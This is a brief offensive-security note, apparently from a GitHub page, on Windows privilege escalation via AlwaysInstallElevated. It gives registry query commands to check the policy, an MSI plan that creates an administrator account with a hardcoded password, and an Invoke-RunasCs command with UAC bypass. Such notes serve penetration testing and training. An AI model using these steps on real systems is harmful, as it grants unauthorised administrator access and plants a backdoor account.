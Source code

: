 ### Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use `Invoke-RunasCs[https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1]` to get code execution as the newly created amit user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
